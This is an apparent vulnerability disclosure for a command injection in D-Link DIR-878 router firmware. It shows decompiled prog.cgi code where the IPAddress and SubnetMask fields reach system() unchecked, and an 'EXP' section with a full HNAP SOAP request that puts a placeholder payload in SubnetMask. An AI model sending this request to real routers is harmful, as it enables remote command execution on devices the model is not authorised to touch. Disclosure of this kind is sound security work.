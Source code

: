 ## DIR-878 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-878

### Affected version

D-Link DIR-878  FW1.20B05 and FW1.10B05 was found to contain a command injection in `/HNAP1/SetNetworkSettings` of the component Web Interface `prog.cgi`, which allows remote attackers to execute arbitrary commands via shell.

![image-20250310195139787](./img/1.png)

### Vulnerability details

Vulnerability occurs in `/HNAP1/SetNetworkSettings`. Attackers can control `VarString` by setting the `IPAddress` or control `v7` by setting the `SubnetMask` , then the program will pass them to get system call without any check.

```
  VarString = (const char *)webGetVarString(a1, "/SetNetworkSettings/IPAddress");
  if ( !VarString )
    return WebsSetResponseResult(a1, 12);
  v7 = (const char *)webGetVarString(a1, "/SetNetworkSettings/SubnetMask");
  if ( !v7 )
    return WebsSetResponseResult(a1, 12);
  v8 = webGetVarString(a1, "/SetNetworkSettings/DeviceName");
  ...
  nvram_safe_set("lan0_ipaddr", VarString);
  if ( (unsigned int)strlen(VarString) >= 7 )
  {
    sprintf(v39, "echo %s >/proc/ipinfo/ip_addr", VarString);
    system(v39);  //command injection
  }
  nvram_safe_set("lan0_netmask", v7);
  if ( (unsigned int)strlen(v7) >= 7 )
  {
    sprintf(v39, "echo %s >/proc/ipinfo/net_mask", v7);
    system(v39);   //command injection
  }
```

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `SubnetMask` or `IPAddress`.

### EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 452
Accept: text/xml
HNAP_AUTH: 6EA57BC3825CEF9821DC8A2C46035271 1827139043216
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: text/xml
Origin: http://192.168.0.1
Referer: http://192.168.0.1/NetworkSettings.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=bgeGaHlw
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress></IPAddress>
	<SubnetMask>payload</SubnetMask>
	<DeviceName></DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart></IPRangeStart>
	<IPRangeEnd></IPRangeEnd>
	<LeaseTime></LeaseTime>
	<Broadcast></Broadcast>
	<DNSRelay></DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

